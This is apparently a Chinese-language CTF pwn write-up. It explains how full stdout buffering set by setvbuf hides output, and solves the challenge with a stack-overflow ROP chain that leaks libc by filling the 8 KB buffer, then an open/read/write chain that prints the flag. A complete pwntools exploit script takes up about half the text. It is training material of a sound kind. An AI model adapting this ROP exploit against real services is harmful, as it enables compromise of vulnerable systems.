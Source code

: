 比赛好像难度挺合适的但没好好打。主要第一题打侧信道本地通了远程通不了破防了。快国赛了做点水题练手。

启动程序发现main里面的字符串没输出来。观察发现init()中setvbuf()对stdin和stdout的处理不一样。一个是setvbuf(stdin, 0LL, 2, 0LL)，一个是setvbuf(stdout, 0LL, 0, 0LL)。

>`int setvbuf(FILE *stream, char *buf, int mode, size_t size);`
>
>FILE *stream: 指向文件流的指针，通常由 fopen 或 fdopen 返回。
>
>char *buf: 指向用作缓冲区的字符数组。如果此参数为 NULL，则库将自行分配缓冲区。
>
>int mode: 缓冲模式，可以是以下值之一：
>
>_IOFBF(0)：完全缓冲（full buffering）。只有缓冲区满时，数据才会被写入或读取。
>
>_IOLBF(1)：行缓冲（line buffering）。在输出时，只有在遇到换行符或缓冲区满时才会刷新缓冲区；在输入时，只有在遇到换行符或缓冲区满时才会填充缓冲区。
>
>_IONBF(2)：无缓冲（no buffering）。数据不经过缓冲区，直接写入或读取。这是一般ctf题使用的模式。
>
>size_t size: 指定缓冲区的大小。仅当 mode 为 _IOFBF 或 _IOLBF 时有效。

可见这里将stdin设置为了无缓冲模式，故可以正常随意读入。将stdout设置为了完全缓冲模式，只有缓冲区满时，数据才会被写入到文件里。但这里又将size设置为了0，那么缓冲区大小是多少呢？

>如果 size 参数为 0，而 mode 为 _IOFBF，标准库通常会忽略用户指定的缓冲区大小，并使用实现定义的默认缓冲区大小。默认缓冲区大小通常是系统页面大小或标准库定义的某个合理值。
>
>GNU C Library (glibc)：
>
>对于完全缓冲的文件，默认缓冲区大小通常为 8192 字节（8 KB）。
>
>对于行缓冲的标准输入和标准输出，缓冲区大小通常与系统页面大小一致，通常是 4096 字节（4 KB）。
>
>Microsoft C Runtime Library：
>
>默认缓冲区大小通常为 4096 字节（4 KB）。

所以这道题中，每当stdout中的数据达到8K(0x2000)，这些数据就会一股脑输出来。于是有思路了，正常栈迁移输libc，然后反复栈溢出puts把缓冲区填满，即可拿到libc。
使用orw而非getshell，因为system("/bin/sh")之后交互中的输出似乎也是走的stdout，受上述完全缓冲限制python会直接读到EOF而停止交互。
w时将len设置为0x2000即可直接输出flag。

exp:
```python
from pwn import*
p = process("./pwn")
libc = ELF("./libc.so.6")
main = 0x40132b
vuln = 0x40125d
rdi = 0x4013d3
ret = 0x40101a
puts_plt = 0x4010b0
puts_got = 0x404018
str_2a = 0x402008
flag = 0x404090
p.send(b'a'*0x58 + p64(vuln))
rop = p64(rdi) + p64(puts_got) + p64(puts_plt) + p64(vuln)
p.send(b'b'*0x28 + rop + b'a'*0x1b8)
rop = p64(rdi) + p64(str_2a) + p64(puts_plt) + p64(vuln)
# gdb.attach(p)
for i in range(0xc2):
    p.send(b'b'*0x28 + rop + b'a'*0x1b8)

p.recvline()
puts_got = u64(p.recv(6).ljust(8,b'\0'))
libc_base = puts_got - libc.symbols["puts"]
print(hex(libc_base))
system = libc_base + libc.symbols["system"]
str_bin_sh = libc_base + libc.search(b"/bin/sh").__next__()
rsi = libc_base + 0x2be51
rdx_r12 = libc_base + 0x11f2e7
open = libc_base + libc.symbols["open"]
read = libc_base + libc.symbols["read"]
write = libc_base + libc.symbols["write"]
rop = p64(rdi) + p64(0) + p64(rsi) + p64(flag) + p64(rdx_r12) + p64(6) + p64(0) + p64(read) + p64(vuln)
p.send(b'b'*0x28 + rop + b'a'*0x190)
p.send("./flag")
rop = p64(rdi) + p64(flag) + p64(rsi) + p64(0) + p64(rdx_r12) + p64(0) + p64(0) + p64(open)
rop+= p64(rdi) + p64(3) + p64(rsi) + p64(flag) + p64(rdx_r12) + p64(0x40) + p64(0) + p64(read)
rop+= p64(rdi) + p64(1) + p64(rsi) + p64(flag) + p64(rdx_r12) + p64(0x2000) + p64(0) + p64(write)
gdb.attach(p)
p.send(b'b'*0x28 + rop)
p.interactive()
```
